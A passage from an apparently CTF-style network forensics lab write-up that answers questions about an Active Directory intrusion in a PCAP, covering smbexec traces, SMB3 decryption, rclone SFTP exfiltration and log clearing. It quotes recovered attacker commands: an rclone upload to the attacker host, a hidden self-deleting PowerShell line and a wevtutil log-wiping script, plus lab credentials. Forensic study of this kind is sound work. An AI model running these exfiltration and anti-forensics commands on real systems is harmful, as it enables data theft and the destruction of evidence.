# Frame 6860+: STATUS_SUCCESS (vs STATUS_ACCOUNT_DISABLED at frame 4778)

# Filter to locate the encrypted LDAP modification session
ldap && ip.src == 192.168.189.172 && frame.number >= 6765 && frame.number <= 6786
```

## Kerberos GSSAPI Privacy

**Encrypted LDAP on Port 389**

When a client authenticates to LDAP using Kerberos rather than simple bind or NTLM, the Generic Security Services Application Program Interface (GSS-API) layer can negotiate message-level encryption over the standard LDAP port `389`. This is separate from LDAPS (port `636`), which wraps the entire connection in TLS before any LDAP traffic flows.

**Pattern breakdown:**

The session opens with a standard LDAP `bindRequest` carrying a SASL mechanism of `GSS-SPNEGO`. The domain controller responds with a `bindResponse` containing a GSS-API token, and the client completes the exchange with a second `bindRequest` carrying the final Kerberos Authenticator. Once the bind succeeds, Kerberos has established a shared session key derived from the service account's long-term key material. Every subsequent LDAP message in that session is wrapped as a SASL GSS-API Privacy payload, appearing in Wireshark as opaque encrypted blobs rather than readable `searchRequest`, `modifyRequest`, or `addRequest` operations.

**Forensic implications:**

The bind frames remain visible and reveal the authenticating username, source IP, and timestamp. All operational LDAP traffic after the bind is encrypted and unreadable without a keytab file containing the target service account's long-term Kerberos key. The NT hash of the account password cannot decrypt these payloads since Kerberos session keys are derived differently from NTLM material. Session teardown appears as a standard TCP FIN after the final encrypted exchange.

Distinguishing markers in Wireshark:

- Port `389` with SASL negotiate frames at session open
- `bindRequest` referencing `GSS-SPNEGO` mechanism
- Post-bind frames displayed as SASL GSS-API Privacy rather than named LDAP operations
- No port `636` or TLS Client Hello present

```
# Filter to isolate Kerberos GSS-API LDAP sessions
ldap && ip.src == <attacker_ip>

# Identify the bind frames
ldap.protocolOp == 0

# Identify encrypted post-bind payloads
ldap.sasl_buffer_length
```

Q13- With administrative access to the domain controller, the threat actor began preparing for data exfiltration. Attackers typically stage files in accessible network shares before transferring them to external infrastructure. Identifying the staging location helps understand the scope of data targeted for theft. What is the name of the file share accessed by the threat actor to stage the files prior to exfiltration?

Answer: `IT`

Reason: After successfully re-enabling `tempadmin` and authenticating over SMB at frame `6859`, the threat actor used those domain administrator credentials to access the IT file share on the domain controller as the staging location for pre-exfiltration data collection. This aligns with artifacts recovered from earlier in the PCAP: `exfil.ps1` collected documents from `C:\Shares`, compressed them to `C:\Shares\exfil.zip`, and `clean.ps1`, written to this same share, removed the rclone tooling and cleared Windows event logs afterward.

The IT share served a dual purpose: it functioned as the operational workspace where the attacker deposited tooling and scripts, and as the staging area where collected files were assembled before transfer. Exfiltration occurred via rclone Secure File Transfer Protocol (SFTP) to the attacker-controlled host at `192.168.189[.]172` on port `2222`. The Tree Connect to `\\192.168.189[.]191\IT` at frame `7057` is only visible after entering `Admin@9999999!` as the NT LAN Manager Security Support Provider (NTLMSSP) password in Wireshark to decrypt the `tempadmin` SMB3 session, confirming the share name. SMB3 encryption is session-keyed from the NTLMSSP exchange, so without the plaintext password or the derived session key, all SMB tree, file, and read operations remain opaque ciphertext in the capture.

This activity maps to MITRE ATT&CK T1039 (Data from Network Shared Drive) for collection staging, T1560.001 (Archive Collected Data: Archive via Utility) for the zip compression step, T1070.001 (Indicator Removal: Clear Windows Event Logs) for the log clearing via `clean.ps1`, and T1048 (Exfiltration Over Alternative Protocol) for the rclone SFTP transfer to the attacker-controlled host.

```
# Decrypt tempadmin SMB3 session
# Wireshark: Edit > Preferences > Protocols > NTLMSSP > NT Password: Admin@9999999!
# Reload PCAP: File > Open (same file)

# Filter Tree Connect requests from tempadmin session (post frame 6859)
smb2.cmd == 3 && frame.number > 6859

# Frame 7057: Tree Connect Request
# Tree: \\192.168.189.191\IT
# Timestamp: 2025-11-25 11:04:46.393321

# Corroborating artifacts from IT share (earlier frames)
# exfil.ps1 -- rclone SFTP to 192.168.189.172:2222, stages C:\Shares\exfil.zip
# clean.ps1 -- removes rclone, clears System/Security/Application event logs
```

Q14- What is the SHA-256 hash of the compressed file uploaded by the threat actor to this share?

Answer: C9DD39E0E0C11A9F029DD31E9E47614AF4650D1853B55DD3F3D1C504F22B5F38

Reason: After connecting to the IT share, the threat actor uploaded `exfil.zip`, the compressed archive assembled by `exfil.ps1` containing documents collected from `C:\Shares`, via an SMB2 Write Request at frame `13003` (timestamp `2025-11-25 11:05:00`), with a transfer length of `8,388,608` bytes (8 MB).

To recover the file and verify its integrity, `exfil.zip` was exported directly from Wireshark using the SMB object export feature, which reconstructs the file from the reassembled Write Request payload. The SHA-256 hash was then computed using PowerShell's `Get-FileHash`, confirming the file hash as `C9DD39E0E0C11A9F029DD31E9E47614AF4650D1853B55DD3F3D1C504F22B5F38`. This hash serves as a chain-of-custody artifact: any copy of this file recovered from other infrastructure can be verified against this value to confirm it is the same archive exfiltrated from the `WOWZA[.]LOCAL` domain. SHA-256 is the appropriate algorithm here as it is collision-resistant and accepted across forensic and legal proceedings as a file integrity standard.

This activity maps to MITRE ATT&CK T1560.001 (Archive Collected Data: Archive via Utility) for the zip staging step, and T1030 (Data Transfer Size Limits) is worth noting given the single 8 MB write, suggesting the archive was transferred in one contiguous operation rather than chunked, which simplifies reconstruction from the capture.

```
# Locate SMB2 Write for exfil.zip
smb2.cmd == 9 && smb2.filename == "exfil.zip"

# Frame 13003: Write Request Len:8388608 Off:0 File: exfil.zip
# Timestamp: 2025-11-25 11:05:00.855091

# Export file from Wireshark
# File > Export Objects > SMB > exfil.zip > Save
```

```powershell
# Hash verification (PowerShell)
Get-FileHash .\exfil.zip -Algorithm SHA256
```

Q15- Analysis of the uploaded archive reveals the data exfiltration toolkit deployed by the threat actor. Understanding the exfiltration software and its configuration helps determine what data was targeted for theft. The tool was configured with a list of file extensions to specifically target during the collection phase. What is the name of the software used by the threat actor to perform data exfiltration, and how many file extensions was it configured to target?

Answer: `rclone`, `14`

Reason: Extracting `exfil.zip` revealed an `rclone` directory containing the attacker's full exfiltration toolkit: `rclone.exe`, a configuration file pointing to the SFTP destination at `192.168.189[.]172` on port `2222` with credentials `johnattan:johnattan`, and `include.txt`, a filter file passed to `rclone` via the `--filter-from` flag in `exfil.ps1` that restricts collection to specific file extensions.

`rclone` is a legitimate, open-source cloud synchronization utility frequently abused by threat actors for data exfiltration because it supports dozens of transfer protocols including SFTP, S3, and FTP, blends with normal administrative traffic, and requires no compilation or custom tooling to deploy. The `include.txt` file contained 14 extension patterns targeting documents, spreadsheets, images, and email stores: `*.doc`, `*.docx`, `*.pdf`, `*.htm`, `*.html`, `*.xls`, `*.xlsx`, `*.jpg`, `*.jpeg`, `*.png`, `*.pst`, `*.msg`, `*.edb`, and `*.mbox`. This extension profile is consistent with targeted financial and communications data theft rather than opportunistic credential harvesting. The inclusion of `*.pst`, `*.edb`, and `*.mbox` is particularly notable, as these formats represent Outlook personal folders, Exchange mailbox databases, and Unix mail stores respectively, indicating the attacker specifically sought email archive content alongside documents and spreadsheets.

This activity maps to MITRE ATT&CK T1005 (Data from Local System) for collecting files from `C:\Shares`, T1560.001 (Archive Collected Data: Archive via Utility) for the zip compression, and T1048.002 (Exfiltration Over Alternative Protocol: Exfiltration Over Asymmetric Encrypted Non-C2 Protocol) for the rclone SFTP transfer to the attacker-controlled host.

```powershell
# Export and extract archive
# Wireshark: File > Export Objects > SMB > exfil.zip > Save
Expand-Archive .\exfil.zip -DestinationPath .\exfil_extracted\

# Inspect rclone filter file
Get-Content .\exfil_extracted\rclone\include.txt
# *.doc *.docx *.pdf *.htm *.html *.xls *.xlsx
# *.jpg *.jpeg *.png *.pst *.msg *.edb *.mbox
# Total: 14 extensions
```

```
# Exfil command from exfil.ps1 (recovered earlier from PCAP)
# rclone.exe copy C:\Shares sftp:johnattan@192.168.189.172:2222
# --filter-from include.txt --zip C:\Shares\exfil.zip
```

Q16- Which protocol did the threat actor use for data exfiltration, and what username and password were used to authenticate?

Answer: SFTP, `johnattan`:`johnattan`

Reason: The threat actor exfiltrated data using Secure File Transfer Protocol (SFTP) on non-standard port `2222`, connecting to the attacker-controlled host at `192.168.189[.]172` with credentials `johnattan:johnattan`. The full `exfil.ps1` script recovered from the archive reveals the complete operational chain: `rclone` creates a temporary SFTP remote using `rclone config create`, passing the password through `rclone obscure`, a reversible XOR-based encoding built into `rclone` and not a true encryption mechanism, before uploading the staged `exfil.zip` via `rclone copy`.

The script also implements self-cleanup beyond what was visible in `clean.ps1`. After upload, it terminates the `rclone` process, deletes the `rclone` configuration from `%APPDATA%\rclone\rclone.conf`, removes `exfil.zip`, then launches a hidden background PowerShell process with a two-second delay to delete the entire script directory after the main process exits. This delayed self-deletion technique works around the limitation that a running script cannot delete its own execution directory while still active. The choice of SFTP on port `2222` rather than the standard port `22` represents a minor defense evasion step, intended to avoid triggering port-specific firewall rules or detection signatures tuned to standard SSH/SFTP traffic.

This activity maps to MITRE ATT&CK T1048.002 (Exfiltration Over Alternative Protocol: Exfiltration Over Asymmetric Encrypted Non-C2 Protocol) for the SFTP transfer on a non-standard port, T1070.004 (Indicator Removal: File Deletion) for the post-exfiltration cleanup of tooling and configuration artifacts, and T1027 (Obfuscated Files or Information) for the use of `rclone obscure` to encode the credential material within the script.

```powershell
# Key variables from exfil.ps1
$server = "192.168.189.172"
$user   = "johnattan"
$pass   = "johnattan"
$port   = "2222"

# rclone remote creation with obscured password
rclone.exe config create johnattan sftp host=192.168.189.172 user=johnattan pass=<obscured> port=2222

# Upload command
rclone.exe copy C:\Shares\exfil.zip johnattan: --progress

# Self-cleanup (background PowerShell with 2s delay to delete script dir)
Start-Process -WindowStyle Hidden powershell -ArgumentList "-NoProfile -Command Start-Sleep -Seconds 2; Remove-Item -Path <scriptDir> -Recurse -Force"
```

Q17- To facilitate data exfiltration, the threat actor used a well-known tool from the Impacket toolkit to obtain a semi-interactive shell on the domain controller. What is the name of this tool?

Answer: `smbexec`

Reason: Following successful authentication as `tempadmin`, the threat actor deployed Impacket's `smbexec.py` to obtain a semi-interactive shell on the domain controller. `Smbexec` operates entirely over SMB without dropping a traditional remote access tool to disk. For each command, it connects to the Service Control Manager (SCM) via the `\svcctl` named pipe, creates a temporary Windows service that executes `cmd.exe /Q /c <command> 1> \\127.0.0.1\ADMIN$\__output 2>&1`, reads the output file back from the `ADMIN$` share, then deletes the service, leaving no persistent binary on the target.

The PCAP contains three `svcctl` Create Requests. Frame `136` at `10:53:27` represents an anonymous probe issued during initial reconnaissance before any credentials were established. Frame `6866` at `11:03:39` reflects the first authenticated access using `tempadmin`, arriving immediately after the SMB session was established at frame `6859`, consistent with `smbexec` initializing its execution channel. Frame `16624` at `11:06:20` marks the start of the main interactive session.

The `__output` relay file appears in five Create Request pairs spanning frames `16661` through `17122` across the window between `11:06:20` and `11:10:24`. Each pair represents one complete command cycle: the first open truncates the previous result and the second open retrieves the fresh output written by the newly spawned service. Five pairs indicate approximately five commands were issued through this shell. All traffic is visible only after decrypting the `tempadmin` SMB3 session using `Admin@9999999!` as the NTLMSSP password in Wireshark.

This activity maps to MITRE ATT&CK T1569.002 (System Services: Service Execution) for the temporary service creation mechanism, T1021.002 (Remote Services: SMB/Windows Admin Shares) for the use of `ADMIN$` as the execution channel and output relay path, and T1059.003 (Command and Scripting Interpreter: Windows Command Shell) for the `cmd.exe`-based command execution within each spawned service.

```
# Filter svcctl named pipe access (Service Control Manager)
smb2.filename contains "svcctl"

# Frame 136:   10:53:27 -- anonymous probe
# Frame 6866:  11:03:39 -- tempadmin first access (smbexec init)
# Frame 16624: 11:06:20 -- main session start

# Filter __output file (smbexec command relay)
smb2.filename contains "__output"

# 5 pairs of Create Requests (10 frames total)
# Frames 16661/16673  -- command 1  (11:06:20)
# Frames 16785/16795  -- command 2  (11:08:08)
# Frames 16991/17005  -- command 3  (11:09:09)
# Frames 17067/17077  -- command 4  (11:10:05)
# Frames 17112/17122  -- command 5  (11:10:24)
```

## Smbexec Execution Traces

**Service Control Manager Pipe and Command Relay File**

Two distinct artifacts in the PCAP reveal the presence of smbexec-based remote execution: repeated access to the `\svcctl` named pipe and a command relay file named `__output` written to the `ADMIN$` share.

The `\svcctl` pipe is the Service Control Manager (SCM) named pipe through which Windows service operations are issued remotely. Smbexec abuses this pipe by calling `CreateService` and `StartService` for each command, spawning a temporary Windows service that executes `cmd.exe /Q /c <command> 1> \\127.0.0.1\ADMIN$\__output 2>&1`, then immediately deleting the service to minimize persistence artifacts. Three accesses to `\svcctl` are visible in the capture. Frame `136` at `10:53:27` represents an early anonymous probe issued before any credentials were established. Frame `6866` at `11:03:39` shows the first credentialed access using `tempadmin`, arriving immediately after the SMB authentication at frame `6859`, consistent with smbexec initializing its execution channel. Frame `16624` at `11:06:20` marks the start of the main interactive session and is immediately followed by `__output` file activity.

The `__output` file is the command relay artifact. Smbexec writes each command's stdout and stderr to `ADMIN$\__output`, then reads the file back to display results to the operator. The paired Create Request frames (`16661`/`16673`, `16785`/`16795`, and subsequent pairs) reflect smbexec's read cycle: the first open truncates or deletes the previous result, and the second open reads the output written by the newly spawned service. Five such pairs are present across the window between `11:06:20` and `11:10:24`, indicating approximately five commands were executed interactively through this shell.

Taken together, the `\svcctl` access pattern and the `__output` read cycle pairs constitute a reliable fingerprint for smbexec activity. Neither artifact appears in normal administrative SMB usage, making their co-occurrence a high-confidence indicator of lateral movement via service-based remote command execution.

This activity maps to MITRE ATT&CK T1569.002 (System Services: Service Execution) for the temporary service creation mechanism, and T1021.002 (Remote Services: SMB/Windows Admin Shares) for the use of `ADMIN$` as both the execution channel and output relay path.

```
# Locate svcctl named pipe access
smb2.filename == "svcctl"

# Locate __output relay file activity
smb2.filename == "__output"

# Scope to interactive session window
smb2.filename == "__output" && frame.number >= 16624

# Correlate service creation with output pairs
smb2.cmd == 5 && smb2.filename == "__output"
```

Q18- When the threat actor executed commands using the tool discovered earlier, it generated a temporary batch file on the domain controller to run the command and then removed it. What was the name of this temporary file created during the exfiltration script execution?

Answer: `RKhBcFrQ.bat`

Reason: The five `smbexec` commands reveal the complete endgame sequence executed on the domain controller. `RKhBcFrQ.bat` is the exfiltration trigger: its binary path contains `powershell -ep bypass -File C:\Shares\rclone-v1.71.2-windows-amd64\exfil.ps1`, making it the specific service invocation that launched the exfiltration script. The remaining four batch files each served a distinct purpose in the operational sequence.

`vlMmVvgL.bat` served as `smbexec's` initial shell connectivity test, issuing a simple `echo cd` to verify command execution was functioning. `wxaKhUwG.bat` extracted the previously staged `exfil.zip` from the IT share to `C:\Shares`, deploying the `rclone` toolkit into the target directory. `RKhBcFrQ.bat` then invoked `exfil.ps1` with the `-ep bypass` flag to circumvent PowerShell execution policy restrictions and initiate the SFTP transfer. `ADdHUFAp.bat` executed `clean.ps1` to remove rclone artifacts and wipe the System, Security, and Application Windows event logs. `XEiPuqxv.bat` completed the cleanup by deleting `clean.ps1` itself as a final artifact removal step.

The full operational sequence is: stage toolkit via SMB write, deploy via `Expand-Archive`, exfiltrate via `exfil.ps1`, cover tracks via `clean.ps1`, then remove the cleanup script. Each batch file is created with a random 8-character name under `%SYSTEMROOT%`, executed immediately, and deleted within the same command line using `& del %SYSTEMROOT%\RKhBcFrQ.bat`, ensuring no file persists on disk after execution. This pattern of ephemeral, randomly named batch files is a well-established smbexec behavioral signature and a reliable indicator of Impacket-based service execution in forensic captures.

This activity maps to MITRE ATT&CK T1569.002 (System Services: Service Execution) for the temporary service creation chain, T1059.001 (Command and Scripting Interpreter: PowerShell) for the `-ep bypass` PowerShell invocations, T1070.004 (Indicator Removal: File Deletion) for the inline batch file self-deletion, and T1070.001 (Indicator Removal: Clear Windows Event Logs) for the log wiping executed via `clean.ps1`.

```bash
# Extract all five CreateServiceW binary paths
tshark.exe -r domainmess_evidence.pcapng \
  -Y "svcctl.opnum == 12 && ip.src == 192.168.189.172" -V | findstr "bat"

# Full smbexec command sequence (in order)
# 1. vlMmVvgL.bat  -- shell test: echo cd > __output
# 2. wxaKhUwG.bat  -- Expand-Archive C:\Shares\IT\exfil.zip -> C:\Shares
# 3. RKhBcFrQ.bat  -- powershell -ep bypass -File C:\Shares\rclone-v1.71.2-windows-amd64\exfil.ps1  <-- EXFIL
# 4. ADdHUFAp.bat  -- powershell -ep bypass -File C:\Shares\IT\clean.ps1
# 5. XEiPuqxv.bat  -- Remove-Item C:\Shares\IT\clean.ps1 -Force
```

Q19- After the data exfiltration stage, the threat actor executed a cleanup script. According to the script, which Windows event logs were cleared? (List them in the order they appear in the script.)

Answer: System, Security, Application

Reason: The cleanup script `clean.ps1`, executed by the threat actor via `ADdHUFAp.bat`, performed three categories of artifact removal in sequence. The `$ErrorActionPreference = "SilentlyContinue"` directive at the top ensures the script continues silently even if any target artifact has already been removed, making the cleanup resilient to partial execution states.

The first category targeted data collection output: `clean.ps1` deleted the staged archive at `C:\Shares\IT\exfil.zip`, removing the primary evidence of what data was collected and compressed for exfiltration. The second category targeted `rclone` tooling: the script recursively removed the `rclone` configuration directory at `C:\Windows\System32\config\systemprofile\AppData\Roaming\rclone`, where `rclone` stores remote definitions including the SFTP credentials for `johnattan@192.168.189[.]172`, and the `rclone` binary directory at `C:\Shares\rclone-v1.71.2-windows-amd64`. The third category targeted Windows event logs: `wevtutil cl` (clear log) wiped the System, Security, and Application logs in sequence, with all output redirected to null to suppress console evidence.

Clearing these three logs eliminates the primary sources of host-based forensic evidence. Security logs contain logon events and privilege use records. System logs contain service creation entries, which would have recorded each of the five ephemeral `smbexec` service invocations. Application logs contain application-level activity across the attack timeline. Together their removal represents a deliberate attempt to destroy the most complete on-host record of the attacker's actions on the domain controller.

This activity maps to MITRE ATT&CK T1070.001 (Indicator Removal: Clear Windows Event Logs) for the `wevtutil` log clearing, T1070.004 (Indicator Removal: File Deletion) for the removal of `exfil.zip` and the rclone directories, and T1564.001 (Hide Artifacts: Hidden Files and Directories) is worth noting given the use of `SilentlyContinue` and null redirection to suppress all execution output.

```powershell
# clean.ps1 -- full content recovered via SMB object export
$ErrorActionPreference = "SilentlyContinue"
Remove-Item "C:\Shares\IT\exfil.zip" -Force -ErrorAction SilentlyContinue
$systemConf = "C:\Windows\System32\config\systemprofile\AppData\Roaming\rclone"
Remove-Item $systemConf -Recurse -Force -ErrorAction SilentlyContinue
Remove-Item "C:\Shares\rclone-v1.71.2-windows-amd64" -Recurse -Force -ErrorAction SilentlyContinue
wevtutil cl "System"       >$null 2>&1
wevtutil cl "Security"     >$null 2>&1
wevtutil cl "Application"  >$null 2>&1

# Event logs cleared in order: System, Security, Application
```

Q20- To understand the full timeline of the attack, it is important to determine when the threat actor completed their activity on the compromised system. Based on the remote execution tool activity (Q17), when was the final command executed by the threat actor on the domain controller?

Answer: `2025-11-25 11:10`

Reason: The final command executed by the threat actor on the domain controller was captured at frame `17089`, timestamp `2025-11-25 11:10:24`, corresponding to the fifth and last `CreateServiceW` request in the smbexec session. Each smbexec command generates exactly one `CreateServiceW` request and response pair over the `\svcctl` named pipe, followed by one `__output` file pair in `ADMIN$`, making the total command count directly enumerable from the packet capture.

The final command, executed via `XEiPuqxv.bat`, ran `powershell -ep bypass -command "Remove-Item 'C:\Shares\IT\clean.ps1' -Force"`, deleting the cleanup script itself as a last-pass artifact removal after `clean.ps1` had already wiped event logs and removed the rclone tooling. This self-referential final step completes the attacker's operational security pattern: every tool deployed during the operation was removed in reverse order of deployment, with the cleanup script eliminating itself last.

The full smbexec session spans from `11:06:20` at frame `16634` to `11:10:24` at frame `17089`, a four-minute interactive window representing the entirety of the threat actor's hands-on-keyboard activity on the domain controller. The compressed timeline across all five commands is consistent with a prepared operator executing a rehearsed playbook rather than improvising, with each step following the previous within one to two minutes and no extended dwell between commands.

This activity maps to MITRE ATT&CK T1070.004 (Indicator Removal: File Deletion) for the final self-referential script deletion, and T1029 (Scheduled Transfer) is worth noting in the broader context given the deliberate sequencing of deploy, execute, exfiltrate, and clean across the four-minute window.

```
# Filter used to enumerate all CreateServiceW requests
svcctl.opnum == 12
```

```
# Full smbexec session timeline
# 11:06:20  frame 16634  vlMmVvgL.bat  -- shell test (echo cd)
# 11:07:55  frame 16760  wxaKhUwG.bat  -- Expand-Archive exfil.zip -> C:\Shares
# 11:09:01  frame 16873  RKhBcFrQ.bat  -- powershell -File exfil.ps1
# 11:10:03  frame 17045  ADdHUFAp.bat  -- powershell -File clean.ps1
# 11:10:24  frame 17089  XEiPuqxv.bat  -- Remove-Item clean.ps1 -Force  <-- FINAL

# Final CreateServiceW -- frame 17089
# Timestamp: 2025-11-25 11:10:24.511773
# Batch file: XEiPuqxv.bat
# Command: powershell -ep bypass -command "Remove-Item 'C:\Shares\IT\clean.ps1' -Force"
```

# Lab Insights

- **Credentials are everywhere**: passwords surfaced in an AS-REP hash crackable offline (T1558.004), in an LDAP description attribute in plaintext (T1552.001), inside a PowerShell script staged on a share, and derivable from SMB session keys. No single credential store holds everything. The whole environment leaks.
- **Encryption is not invisibility**: SMB3 encryption hid file names and share contents, but session structure, timing, size patterns, and authentication exchanges remained visible (T1573). Knowing which password to hand Wireshark unlocked entire phases of the attack. Encrypted traffic still tells a story.
- **The PCAP is its own evidence chain**: every stage left a recoverable artifact, files exportable via SMB object export, hashes extractable via `tshark`, scripts readable after decryption. A single PCAP contained enough to reconstruct the full attack from first probe to final cleanup.
- **Fileless tools still have fingerprints**: `smbexec` never dropped a persistent binary, but `\svcctl` named pipe access plus `__output` file pairs are an unambiguous signature (T1021.002). Knowing what legitimate tooling looks like on the wire makes attacker tooling stand out regardless of evasion intent.
- **Cleanup is also evidence**: the cleanup sequence (`wevtutil`, `Remove-Item`, self-deleting scripts) was fully visible in the PCAP (T1070.001, T1070.004). Clearing logs on a live host does nothing to a network capture already taken. The order of operations even revealed the attacker's priorities.
- **AD is a chain of trust**: one account with no Kerberos pre-authentication required, one service account with a weak numeric password, one disabled account with its password in an LDAP description field. Each was individually exploitable. Together they handed the attacker domain admin (T1078.002).
- **Protocol knowledge is the core skill**: Kerberos message types, LDAP operation codes, SMB2 command numbers, SVCCTL opnums, and DCERPC named pipes. Every pivot required knowing what normal looks like at the protocol level to recognize what was anomalous.

# Forensic Timeline

